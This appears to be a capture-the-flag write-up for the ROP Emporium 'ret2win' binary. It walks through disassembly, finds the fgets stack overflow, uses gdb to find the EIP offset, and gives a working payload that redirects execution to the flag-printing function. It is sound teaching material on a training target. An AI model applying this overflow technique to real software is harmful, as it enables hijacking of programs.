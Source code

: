 # RET2WIN Writeup

## 32bit

Disassemble the binary (use IDA, binary ninja or WYL) and inspect
the code section (.text part)

```bash
objdump -d ret2win32
```

Start by analyzing the asm looking for an entry point for the exploit
which, in this case, is represented by a vulnerable buffer.
Indeed, _pwnme_ allocates a 32byte buffer (0x20) which is then passed as
parameter to fgets but with the wrong size, 50 (0x32).
This vuln buf manipulated by the __fgets__ call in the __pwnme__ function
can be exploited.

```bash
080485f6 <pwnme>:
 80485f6:   55                      push   %ebp
 80485f7:   89 e5                   mov    %esp,%ebp
 80485f9:   83 ec 28                sub    $0x28,%esp
 80485fc:   83 ec 04                sub    $0x4,%esp
 80485ff:   6a 20                   push   $0x20
 8048601:   6a 00                   push   $0x0
 8048603:   8d 45 d8                lea    -0x28(%ebp),%eax
 8048606:   50                      push   %eax
 8048607:   e8 54 fe ff ff          call   8048460 <memset@plt>
 804860c:   83 c4 10                add    $0x10,%esp
 804860f:   83 ec 0c                sub    $0xc,%esp
 8048612:   68 3c 87 04 08          push   $0x804873c
 8048617:   e8 04 fe ff ff          call   8048420 <puts@plt>
 804861c:   83 c4 10                add    $0x10,%esp
 804861f:   83 ec 0c                sub    $0xc,%esp
 8048622:   68 bc 87 04 08          push   $0x80487bc
 8048627:   e8 f4 fd ff ff          call   8048420 <puts@plt>
 804862c:   83 c4 10                add    $0x10,%esp
 804862f:   83 ec 0c                sub    $0xc,%esp
 8048632:   68 21 88 04 08          push   $0x8048821
 8048637:   e8 c4 fd ff ff          call   8048400 <printf@plt>
 804863c:   83 c4 10                add    $0x10,%esp
 804863f:   a1 60 a0 04 08          mov    0x804a060,%eax
 8048644:   83 ec 04                sub    $0x4,%esp
 8048647:   50                      push   %eax
 8048648:   6a 32                   push   $0x32
 804864a:   8d 45 d8                lea    -0x28(%ebp),%eax
 804864d:   50                      push   %eax
 804864e:   e8 bd fd ff ff          call   8048410 <fgets@plt>
 8048653:   83 c4 10                add    $0x10,%esp
 8048656:   90                      nop
 8048657:   c9                      leave
 8048658:   c3                      ret
```

Looking at other functions in the disassembled binary we see ret2win.
This function contains a call to __system__, which executes the command passed
as parameter. Here we can see the address _0x8048841_ pushed on the stack
before calling system (passed as param).
So, we are interested in figuring out what this address contains.

Using rabin2 (binary inspector) it is possible to grep the different sections
of the ELF file.

```bash
rabin2 -z ret2win32
```

prints the strings contained in the .data segment of the binary and their
virtual addresses, which we are interested in.

```bash
vaddr=0x08048710 paddr=0x00000710 ordinal=000 sz=24 len=23 section=.rodata type=ascii string=ret2win by ROP Emporium
vaddr=0x08048728 paddr=0x00000728 ordinal=001 sz=8 len=7 section=.rodata type=ascii string=32bits\n
vaddr=0x08048730 paddr=0x00000730 ordinal=002 sz=9 len=8 section=.rodata type=ascii string=\nExiting
vaddr=0x0804873c paddr=0x0000073c ordinal=003 sz=126 len=125 section=.rodata type=ascii string=For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;\nWhat could possibly go wrong?
vaddr=0x080487bc paddr=0x000007bc ordinal=004 sz=101 len=100 section=.rodata type=ascii string=You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!\n
vaddr=0x08048824 paddr=0x00000824 ordinal=005 sz=29 len=28 section=.rodata type=ascii string=Thank you! Here's your flag:
vaddr=0x08048841 paddr=0x00000841 ordinal=006 sz=18 len=17 section=.rodata type=ascii string=/bin/cat flag.txt
```
We can see the last vaddr matches with the following string:

_/bin/cat flag.txt_

which prints the content of flag.txt to stdout.

Since the __ret2win__ function already
prints the flag we are searching for, we just need to overflow the buffer
until reaching EIP then overwrite its value with the address of ret2win
function.

We can inspect the execution state of pwnme trying
to figure out which is the right num of bytes needed to overflow the buffer and
overwrite the EIP.
Since we are attacking a 32bit binary, the size of each address is 4 bytes.
So we craft a string composed by different chunks of 4 bytes.

```bash
for i in `seq 0 77`;
do
   python -c 'from __future__ import print_function; import sys; print(str(unichr(48+int(sys.argv[1])))*4,end="")' $i;
done;

```
Then we use gdb to inspect the exec state of pwnme, injecting the probe string
and observing the state of the registers.

```bash
gdb -q ret2win32
Reading symbols from ret2win32...(no debugging symbols found)...done.
(gdb) break pwnme
Breakpoint 1 at 0x80485fc
(gdb) r
Starting program: /home/m/Downloads/ret2win32 
ret2win by ROP Emporium
32bits


Breakpoint 1, 0x080485fc in pwnme ()
(gdb) n
Single stepping until exit from function pwnme,
which has no line number information.
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 0000...}}}}
0x3b3b3b3b in ?? ()
(gdb) info all
eax            0xffffd170  -11920
ecx            0xf7f958a0  -134653792
edx            0xffffd170  -11920
ebx            0x0   0
esp            0xffffd1a0  0xffffd1a0
ebp            0x3a3a3a3a  0x3a3a3a3a
esi            0xf7f94000  -134660096
edi            0x0   0
eip            0x3b3b3b3b  0x3b3b3b3b
eflags         0x282 [ SF IF ]
...
```
EBP is smashed by "3a"*4a, the HEX code for ':'*4 and EIP is smashed by "3b"*4,
the HEX code for ';'*4

Jumping to ret2win function requires to overwrite EIP. We replace the
4 ';' chars in our string with the address of ret2win. To simplify, we just
use the same value for all the other chars which are needed to overflow the
buffer and remove the "extra" chars after ';'

```bash
python -c 'print "A"*44+"\x59\x86\x04\x08"' | ./ret2win32
```

the address has been translated in little endian format cause Intel
processors use this format to store addresses in memory

## 64bit

The exploit is the same as the 32bit one. The only difference is in the size
of the addresses: use little_endian(0000000000400811) as ret2win vaddr
instead of the 32bit version.